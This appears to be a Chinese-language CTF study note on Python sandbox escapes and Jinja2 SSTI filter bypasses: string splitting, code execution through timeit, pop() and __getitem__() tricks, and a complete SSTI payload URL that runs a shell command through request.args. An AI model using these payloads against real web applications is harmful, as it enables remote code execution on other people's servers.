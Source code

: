 


- 字符串拼接

将`'d:/1.txt'` 切分3为`'d:/1''.txt'`可以得到相同的效果，如下:

<img src='https://0xfay.github.io/public/image/223453.png'>

中间有加号没加号都可以




- timeit模块

本为用于计时代码执行时间的模块，也可以用来执行命令，如:

`timeit.timeit("__import__('os').system('whoami')")`

<img src='https://0xfay.github.io/public/image/222023.png'>



- getattr



- `pop()`方法(中括号`[]`绕过)

pop方法可以删除列表或字典的值并返回(默认删除最后一项)，当从元组中返回可执行函数列表后可通过pop方法调用函数(在ssti中可反复使用，并不会删除，大概是因为他每次返回的字典都是从类里的内容直接转的字典吧，所以即使用`pop()`删了字典中的类容，下一次返回字典还是根据类里面的内容返回的)

<img src='https://0xfay.github.io/public/image/225730.png'>




- `__getitem__()`方法(中括号`[]`绕过)

`__getitem__()`返回列表或字典中的值，将上文pop的地方替换为了`__getitem__()`，有同样的效果

<img src='https://0xfay.github.io/public/image/001338.png'>



- 截取字符串进行拼接:

感觉大部分地方都不会派上用场，因为jinja的`{{}}`中只能用方法，不能用函数单独去调用。但还是记录一下，感觉是个不错的思路

<img src='https://0xfay.github.io/public/image/003153.png'>

类似以上这种，从已有字符串中截取字符串




- `request.args`/`request.value`(各种字符过滤绕过)

`request.args`(接受get传参方式)

payload:

`http://127.0.0.1:5000/login?name={{().__class__.__mro__[1].__subclasses__()[146].__init__.__globals__[request.args.bu][request.args.ev](request.args.cmd)}}&cmd=__import__(%22os%22).popen(%27whoami%27).read()&bu=__builtins__&ev=eval`
